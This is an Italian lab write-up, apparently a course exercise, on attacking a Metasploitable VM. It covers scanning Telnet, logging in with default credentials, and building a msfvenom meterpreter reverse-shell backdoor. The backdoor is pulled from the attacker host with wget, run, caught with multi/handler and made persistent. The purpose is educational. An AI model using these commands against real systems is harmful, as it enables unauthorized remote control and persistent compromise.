 # Consegna S7/L2 | Hacking con Metasploit

## 🎯 Obiettivo
L'obiettivo di questa esercitazione è stato esplorare e applicare tecniche di **ethical hacking** utilizzando **Metasploit Framework** per:
1. Identificare e analizzare il servizio **Telnet** tramite il modulo `telnet_version`.
2. Creare una **backdoor personalizzata** con **msfvenom**, compatibile con l'architettura a 32-bit, e trasferirla sul target per ottenere una sessione shell e, opzionalmente, renderla **persistente**.

Questa relazione è scritta in modo chiaro e scorrevole, con l'obiettivo di essere comprensibile anche per chi non ha familiarità con questi strumenti. 🚀

---

## 1. Analisi del servizio Telnet con Metasploit
### 🛠️ Strumenti utilizzati
- **Metasploit Framework (msf6)**
- **Kali Linux**
- **Metasploitable** (target)
- **Nmap** per la scansione delle porte

### 📋 Procedura
1. **Scansione delle porte aperte**: 
   Utilizzando **Nmap**, abbiamo individuato che il servizio **Telnet** è attivo sulla porta **23** del target:
   ```bash
   nmap -p 23 192.168.50.3
   ```
   Questo passaggio è fondamentale per identificare servizi potenzialmente vulnerabili.

2. **Identificazione della versione Telnet**:
   Abbiamo utilizzato il modulo **auxiliary/scanner/telnet/telnet_version** di Metasploit per identificare la versione del servizio Telnet esposto:
   
   ```bash
   msfconsole
   use auxiliary/scanner/telnet/telnet_version
   set RHOSTS 192.168.50.3
   run
   ```
   Questo modulo ci ha fornito informazioni dettagliate sulla versione del servizio Telnet, permettendoci di pianificare eventuali attacchi successivi.

3. **Accesso alla shell Telnet**:
   Utilizzando le credenziali di default del servizio Metasploitable (ad esempio `msfadmin:msfadmin`), abbiamo ottenuto una **shell interattiva** sul target.

---

## 2. Creazione e utilizzo della backdoor
### 🧰 Strumenti utilizzati
- **msfvenom**: Generazione del payload
- **Metasploit Framework**: Configurazione del listener
- **Python HTTP Server**: Trasferimento del file
- **wget**: Download sul target

### 🚀 Creazione della backdoor
Abbiamo scelto di utilizzare **msfvenom** per creare un payload **reverse shell**. La scelta è ricaduta su **linux/x86/meterpreter_reverse_tcp** per i seguenti motivi:
1. **Compatibilità**: Metasploitable gira su architettura a **32-bit** (x86), rendendo necessario generare un payload adatto.
2. **Meterpreter**: Consente un controllo avanzato della macchina target, offrendo più funzionalità rispetto a una semplice shell interattiva.

Il comando utilizzato per generare la backdoor è stato:
```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f elf -o backdoor_ftp.elf
```
- **`-p`**: Payload per Linux con connessione inversa.
- **`LHOST` e `LPORT`**: Indirizzo IP e porta per ricevere la connessione.
- **`-f elf`**: Formato ELF per sistemi Linux.
- **`-o`**: Nome del file di output.

### 📤 Trasferimento della backdoor
Per trasferire il file sul target, abbiamo usato un server HTTP semplice su Kali e **wget** su Metasploitable:

1. **Avvio del server HTTP su Kali**:
   ```bash
   python3 -m http.server 8080
   ```
2. **Download del file sul target**:
   ```bash
   cd /tmp
   wget http://192.168.50.2:8080/backdoor_ftp.elf
   ```

### 🔑 Esecuzione della backdoor
Dopo aver trasferito la backdoor sul target, abbiamo eseguito i seguenti passaggi:
1. **Permessi di esecuzione**:
   ```bash
   chmod +x backdoor_ftp.elf
   ```
2. **Avvio della backdoor**:
   ```bash
   ./backdoor_ftp.elf
   ```

### 📡 Configurazione del listener su Metasploit
Per ricevere la connessione inversa generata dalla backdoor, abbiamo configurato il listener con **multi/handler**:
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter_reverse_tcp
set LHOST 192.168.50.2
set LPORT 4444
exploit
```

### 🎉 Risultato: Sessione Meterpreter
La backdoor ha stabilito con successo una connessione con la nostra macchina Kali, fornendoci una **sessione Meterpreter**. Da qui, abbiamo potuto:
- Navigare nel filesystem (`ls`, `cd`)
- Caricare e scaricare file (`upload`, `download`)
- Ottenere informazioni dettagliate sul sistema (`sysinfo`)
- Eseguire comandi avanzati direttamente sul target

### 🔒 Persistenza (facoltativa)
Per rendere la backdoor persistente sul target, abbiamo utilizzato il modulo **persistence** di Meterpreter:
```bash
run persistence -X -i 5 -p 4444 -r 192.168.50.2
```
- **`-X`**: Installa come servizio di sistema.
- **`-i`**: Intervallo di riconnessione (ogni 5 secondi).
- **`LPORT` e `LHOST`**: Configurazione del listener.

---

## 🏁 Conclusione
Questa esercitazione ha dimostrato come:
1. Identificare la versione di un servizio vulnerabile utilizzando **Metasploit**.
2. Creare una **backdoor personalizzata** compatibile con l'architettura della macchina target.
3. Stabilire una **sessione Meterpreter** per eseguire operazioni avanzate di post-exploitation.

La simulazione è un esempio concreto di **analisi, sfruttamento e consolidamento** dell'accesso a un sistema compromesso, evidenziando l'importanza di proteggere i servizi esposti. 

